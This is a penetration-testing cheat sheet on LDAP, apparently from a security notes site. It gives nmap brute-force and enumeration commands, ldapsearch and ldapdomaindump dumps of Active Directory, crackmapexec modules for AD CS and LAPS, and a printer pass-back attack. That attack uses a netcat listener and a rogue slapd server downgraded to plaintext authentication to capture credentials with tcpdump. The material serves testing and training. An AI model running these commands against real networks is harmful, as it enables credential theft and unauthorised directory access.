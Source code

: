 ```yaml
---
title: Lightweight Directory Access Protocol (LDAP) Pentesting
desc: A standard protocol designed to maintain and access "directory services" within a network. Default port is 389 (LDAP), 636 (LDAPS).
tags: [389, 636, 3268, 3269, Active, Directory, LAPS, LDAP, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' -p 389 <target-ip>
    nmap --script ldap-search -p 389 <target-ip>
    nmap --script ldap-* -p 389 <target-ip>
    nmap --script "ldap* and not brute" -p 389 <target-ip>
    ```

<br />

## Search LDAP

```sh
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com"
ldapsearch -x -H ldap://10.0.0.1:636 -b "dc=example,dc=com"

# As administrator
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -w password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -W
```

<br />

## Dump the Active Directory Information

If you have the credential, you can get the Active Directory information via LDAP.

```sh
ldapdomaindump -u username -p password 10.0.0.1
```

<br />

## Connect

1. **Active Directory Certificate Services (AD CS)**

    ```sh
    cd crackmapexec
    # -M: module
    poetry run crackmapexec ldap <target-ip> -d 'domain' -u 'username' -p 'password' -M adcs
    ```

2. **Local Administrator Password Solution (LAPS)**

    ```sh
    cd crackmapexec
    # -M: module
    poetry run crackmapexec ldap <target-ip> -u 'username' -p 'password' --kdcHost <target-ip> -M laps
    ```

<br />

## Pass-Back Attack

Attack against the network devices such as printers.  
For example, access http://printer.sub.example.com/settings.aspx

- **Netcat**

    Open a listener for connecting back to your local machine.

    ```sh
    nc -lvp 389
    ```

    In browser, test LDAP settings where you input username and password.

- **Host Rogue LDAP Server**

    If you cannot connect back in local machine by Netcat, you need to create a rogue LDAP server.  
    Install the dependencies at first.

    ```sh
    sudo apt update
    sudo apt install -y slapd ldap-utils
    sudo systemctl enable slapd
    ``` 

    Configure your own rogue LDAP server by executing the following command.

    ```sh
    sudo dpkg-reconfigure -p low slapd

    # ---------------------------------------------------

    # in configuration dialog

    1. Omit OpenLDAP server configuration: No
    2. DNS domain name: <target-domain>
    3. Organization name: <target-domain>
    4. Administrator password: <arbitrary-password>
    5. Database backend to use: MDB
    6. Do you want the database to be removed when slapd is purged?: No
    7. Move old database?: Yes
    ```

    We need to make your rogue LDAP server to be vulnerable by downgrading the supported authentication mechanism.  
    Create the config file named "config.ldif".

    ```
    dn: cn=config
    replace: olcSaslSecProps
    olcSaslSecProps: noanonymous,minssf=0,passcred
    ```
    
    Now we can use the config file to patch the LDAP server.
    
    ```sh
    # -Y: SASL mechanism
    # -H: URI
    sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./config.ldif
    sudo service slapd restart
    ```
    
    We can verify that the rogue LDAP server’s configuration has been applied:
    
    ```sh
    ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
    ```
    
    For capturing the credentials, run the following command.
    
    ```sh
    sudo tcpdump -SX -i <target-interface-like-eth0> tcp port 389
    ```
    
    In browser, test the printer settings and capture the credentials via tcpdump.
